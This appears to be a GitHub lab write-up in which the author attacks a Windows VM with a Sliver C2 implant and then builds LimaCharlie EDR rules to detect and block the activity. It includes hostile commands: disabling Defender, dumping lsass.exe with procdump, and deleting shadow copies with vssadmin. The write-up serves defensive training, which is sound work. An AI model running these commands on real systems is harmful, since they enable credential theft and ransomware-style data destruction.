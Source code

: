 # End Point Detection and Response Lab

![Logo Bar](https://i.imgur.com/iePpCDH.png)

## Introduction

For this Lab I created a simple virtual envrionment using two VMware virtual machines and LimaCharlie end point detection and response (EDR). I added a sensore to ingest log data from our target VM, dropped a C2 payload created with Sliver, observed telemetry from the EDR, detected adversarial movements, and crafted detection and response rules.


## Architecture

The architecture of this lab consists of the following components:

- Windows 11 Virtual Machine (VMware)
- Ubuntu Server Virtual Machine (VMware)
- PuTTY SSH Client
- LimaCharlie End Point Detection and Response
- Sysmon


## Set up the virtual environment

1. Download and install VMware Workstation Pro 17.
    - I chose to buy the Pro version instead of the free trial since I plan on utilizing it a lot more in the future
2. Download and deploy a VMware evalustion version of Windows 11 from Microsoft.
3. Download and install Ubuntu Server 22.04.1
    - This specific versio of Ubuntu comes with the necessary packages preinstalled.
    - During the install process manually set the ipv4 address of the Ubuntu server so the IP address doesn't change during the lab
4. Set up the Windows VM
    - Disable Tamper Protection
    - Permanently disable Defender via the Group Policy Editor
    - Permanently disable Defender via Registry
    - Prevent the VM from going into standby via command prompt
      ![Disable Standby](https://i.imgur.com/zRszk5m.png)
    - Install Sysmon
    - Validate Sysmon is installed and running via Powershell with Get-Service sysmon64
      ![Validate](https://i.imgur.com/A2hozsA.png)
    - Check for presence of Sysmon Event logs
      ![Event Logs](https://i.imgur.com/VTBPH23.png)
    - Create a snapshot of the Winows VM to return to a clean point
5. Install LimaCharlie EDR on Windows VM
    - Create a free account with LimaCharlie and then create an organization with the Extended Detection and Response Standard template
    - Add a sensor. These are the primary input for data into LimaCharlie
      ![Add Sensor](https://i.imgur.com/ao00dka.png)
    - Download the sensore with Invoke-WebRequest in Powershell then install the sensor on our Endpoint via the Command Prompt.
      ![Add Sensor](https://i.imgur.com/vGFOpHH.png)
    - The new sensor is confirmed to be reporting in at this point.
    - Now we need to configure LimaCharlie to ship the Sysmon Event Logs along with its own telemetry
6. Set up the Attack System (Our Ubuntu Server)
    - Use PuTTY to access our Ubuntu VM through SSH
    - Move to root with "sudo su" command
    - Download Sliver command and control framework
    - Create a working directory for Sliver with mkdir command (mkdir -p /opt/sliver).
    - Once Sliver is installed into our new directory we can move to it and launch Sliver
    - Generate our payload once inside of Sliver with this command line "generate --http [Linux_VM_IP] --save /opt/sliver"
      ![Sliver](https://i.imgur.com/QSA7EuP.png)
    - Create a temporary web server with python (python3 -m http.server 80), then downlaod the payload on the Windows machine via Powershell

## Work The Lab

1. Start a Command and Control Session
    - After relaunching Sliver start an http listener in the console with the command "http"
    - Back on the Wndows VM I will just manually execute our C2 implant.exe within an administrative Powershell
    - We should see our C2 session appear in the Sliver console
      ![Sliver](https://i.imgur.com/9WzEhqH.png)
    - Entering the "session" command into the Sliver console we can take note of our session ID.
    - Next we can interact with our C2 session by using the command "use [session_id]" in the Sliver console
    - Now we can start exploring our windows system with some simple commands like "info", "whoami", and "getprivs", then identify our working directory with "pwd" and examine network conncetions with "netstat"
    - If we run the command "ps -t" we can view running processes on the Windows system and note how Sliver will highlight it's own processes in green and detect defensive tools in red. This is a good example of how attackers can become aware of defensive tools a victim might be using
      ![Sliver](https://i.imgur.com/9qPc4Km.png)
2. Observer Some EDR Telemetry 
    - Now we can hop into the LimaCharlie UI and check out some of the telemetry that has been collected from our end point
    - First look at some processes and spend some time exploring. Take note that LimaCharlie does a nice job of showing processes that are signed and ones that are not. A process that carries a valid signature is often going to be benign itself, although legitimate processes can be used to launch a malicious process or code. Below shows our payload as an unsigned processs (missing the green check) as well as an indicator that it is "listening".
       ![Sliver](https://i.imgur.com/cKMLdR0.png)
    - We can also view network connections from here and identify the destination IP this our payload process is communicating with
      ![Network Connection](https://i.imgur.com/rwyIODK.png)
    - Next we can explore the File System through Lima and find our payload in the downloads section. From there we can search the file hash in Virustotal although there is nothing found as we just created a new payload. This is a good time for a lesson, just because a hash is not found on Virustotal it does not mean that it is innocent.
    - We continue to explore through LimaCharlie and learn what it can show us and how we can further use the information to investigate as well as start to build detection and response.
3. Perform Some Adversarial Actions
    - Let's run a "getprivs" command and see what kind of privileges we have on the compromised host (Windows VM). The primary one we are looking for is SeDebugPrivilege, if this is enbaled then we should have all the privileges we need on the system. Fortunately for this lab we know we have this because we executed the payload in the Windows VM with administrative rights. Let's check it anyway.
       ![getprivs](https://i.imgur.com/5Q7oDwF.png)
    - Now that we know we have the privileges, let's make a move that is popular for stealingf credentials and dump the lsass.exe process from memory. Use the command "procdump -n lsass.exe -s lsass.dmp". This will dump the process from memory and save it locally on the C2 server. This step is really only done to detect the dump with LimaCharlie but it is also a good chance to later learn more about how this technique is used and try it for ourselves.
4. Let's Detect
    - We've done something malicious, now let's switch to Lima and examine it. Since lsass.exe is a sensitive process that is targeted by credential targeting tools, any good EDR will generate events for it.
    - Looking into the Timeline of the Windows VM in Lima we can filter for SENSITIVE_PROCESS_ACCESS events. For this lab there won't be much on the system that is legitimately accessing lsass so we can be assured that the events we see are from our procdump.
      ![lsass](https://i.imgur.com/meZi60L.png)
    - Knowing what the event looks like when credential access occurs we can use that information to create a detection and response rule in Lima which would alert us anytime actvity that matches occurs. The rules in Lima are written in YAML. Breaking the below rule down. First we have the detection portion of the rule: look for event type SENSITIVE_PROCESS_ACCESS (event) which ends with (op) lsass.exe (value) in the given (path). This rule as is very noisy in a real world scenario but for simplicity in this lab it works. The second part of the rule is the response which is a simple alert. We call out an (action) to report and the (name) should be LSASS access.
      ![lsassrule](https://i.imgur.com/4GVAxYP.png)
    - After putting the bad actor hat on once again and running our proc dump, we can go back to Lima and look at the Detections tab. Here we now see our newly created LSASS access detection rule reporting in after another credential access attempt
      ![lsassdetect](https://i.imgur.com/7q8K58D.png)
    - These last few steps have given us the framework to go and explore, seeing what more we can do with the C2 and what other rules we can craft as well as tune. I will surely be playing more with these in the near future and update this project but for now let's move on to a couple more attacks and rules, even throwing in some attack blocking!
5. Blocking Attacks with EDR
    - The most critical aspect of blocking with EDr certainly seems to be baselining the environment. False positives with a blocking rule in effect are far different than a simply alert which you can investigate while the enviroment goes along on it's merry way. Now we are talking abouta rule that can stop processes and cause real problems if it's just firing off on a mutlitude of false positives.
    - The rule we are going to create for this step involves Volume Shadow Copies. Volume shadow copies provide and eay way to restore files or a file system. This is one of the most attractive options for recovering from a ransomware attack and thus makes the deletion of the volume shadow copies a good sign of a ransomware attack.
    - We'll use a basic command to delete these "vssadmin delete shadows /all". This command is a good candidate for a blocking rule as it has low false positive rates and a high threat activity indicator. It's not a command that is commonly run in a healthy environment.
    - As in the past exercise we'll execute this commmand with our C2 session so we can later use its process in Lima to craft a detection and response rule.
    - After running the command on our C2 server, we jump back into the Lima Detection tab. The default Sigma rules should already have picked up on this activity which can be seen below.
      ![shadowcopies](https://i.imgur.com/lpybkfc.png)
    - Clicking on View Event Timeline we can quickly move to building a new detection and response rule. The detection portion of the rule is created automatically by Lima then we add the Response. The rule simply says when you see this then kill the parent process. Here is what the rule looks like:
      ![shadowrule1](https://i.imgur.com/xZwtJHL.png)
    - In a ransomware scenario this rule would eb effective because the parent process is liekly the payload or lateral movement which would be terminated.
    - There is however another and better way of writing this rule. the current rules relies on a literal matching of the string "vssadmin delete shadows /all". The weakness here is that even an extra space somewhere will break the rule. Taking this into consideration we can use the "contains" operator. This will avoid the literal issue.
      ![shadowrule1](https://i.imgur.com/FOmYnYo.png)
    
      
      
      
      
      
   





